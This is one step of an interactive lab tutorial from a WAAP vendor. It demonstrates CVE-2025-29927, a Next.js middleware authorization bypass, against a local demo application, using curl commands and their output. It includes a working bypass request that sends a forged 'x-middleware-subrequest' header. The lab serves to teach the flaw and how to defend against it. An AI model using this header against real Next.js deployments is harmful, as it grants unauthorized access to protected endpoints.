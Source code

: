 <!--
SPDX-FileCopyrightText: 2025 United Security Providers AG, Switzerland

SPDX-License-Identifier: GPL-3.0-only
-->

&#127919; In this step you will:

* Access the vulnerable Next.js demo application
* Bypass the Next.js authorization (CVE-2025-29927)

### Access the vulnerable Next.js demo application

> &#8987; Wait until the console on the right side shows `*** Scenario ready ***` before accessing the backend (otherwise you'll see a `HTTP 502 Bad Gateway` error)!

As outlined in [CVE-2025-29927 Next.js Authorization bypass analysis](https://jfrog.com/blog/cve-2025-29927-next-js-authorization-bypass/) by JFrog Security team in March 2025, ...

The vulnerable Next.js demo application has been setup and will be used to demonstrate the problematic behavior.

> &#128270; Initially the backend will be accessed unprotected (not using USP Core WAAP)

While you can [access the demo application]({{TRAFFIC_HOST1_8080}}/api/hello) using a browser, you'll see a `HTTP 401` response since no authorization was sent by the browser. Note that this small demo application for simplicity accepts a specific value used as `Authorzation` Header (more details in the [demo application source code](https://github.com/lirantal/vulnerable-nextjs-14-CVE-2025-29927)).

Go ahead and make a HTTP GET request (without an authorization header) replicating the browser behavior:

```shell
curl -v http://localhost:8080/api/hello | jq
```{{exec}}

<details>
<summary>example command output</summary>

```shell
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* Connected to localhost (::1) port 8080
> GET /api/hello HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.5.0
> Accept: */*
>
< HTTP/1.1 401 Unauthorized
< content-type: application/json
< Vary: Accept-Encoding
< Date: Wed, 06 Aug 2025 14:10:05 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< Transfer-Encoding: chunked
<
* Connection #0 to host localhost left intact
{
  "error":"Unauthorized"
}
```

</details>
<br />

The application correctly responds with message "unauthorized" (combined with HTTP Status Code 401). Now presenting the (dummy) authorization header, the backend responds with data (authorization code executed in Next.js middleware):

```shell
curl -v \
  -H "Authorization: my-jwt-token-here" \
   http://localhost:8080/api/hello \
   | jq
```{{exec}}

<details>
<summary>example command output</summary>

```shell
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* Connected to localhost (::1) port 8080
> GET /api/hello HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.5.0
> Accept: */*
> Authorization: my-jwt-token-here
>
< HTTP/1.1 200 OK
< vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch
< content-type: application/json
< Date: Wed, 06 Aug 2025 14:10:44 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< Transfer-Encoding: chunked
<
* Connection #0 to host localhost left intact
{
  "message":"Hello, World"
}
```

</details>
<br />

So far we've tested access to the backend (without USP Core WAAP protection) and verified the correct backend behavior with and without an authorization header.

### Bypass the Next.js authorization (CVE-2025-29927)

Because of CVE-2025-29927 present in multiple Next.js versions (greatly analyzed in this [blog post from JFrog](https://jfrog.com/blog/cve-2025-29927-next-js-authorization-bypass/)) not having an authorization token does not guarantee denied access to the sensitive backend!

As seen here by using vulnerable Next.js version 14 (up to 14.2.24) where one can send a static HTTP header **completely bypassing the Next.js Middleware authorization**:

```shell
curl -v \
  -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" \
  http://localhost:8080/api/hello \
  | jq
```{{exec}}

<details>
<summary>example command output</summary>

```shell
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* Connected to localhost (::1) port 8080
> GET /api/hello HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.5.0
> Accept: */*
> x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
>
< HTTP/1.1 200 OK
< vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch
< content-type: application/json
< Date: Wed, 06 Aug 2025 14:09:11 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< Transfer-Encoding: chunked
<
* Connection #0 to host localhost left intact
{
  "message":"Hello, World"
}
```

</details>
<br />

Without an authorization header this request got access to the "sensitive" area completely bypassing the Next.js middleware authorization code!

Now let's see how [header filtering](https://docs.united-security-providers.ch/usp-core-waap/crd-doc/#corewaapservicespecheaderfiltering) **provided by USP Core WAAP** safeguards you in the next step!
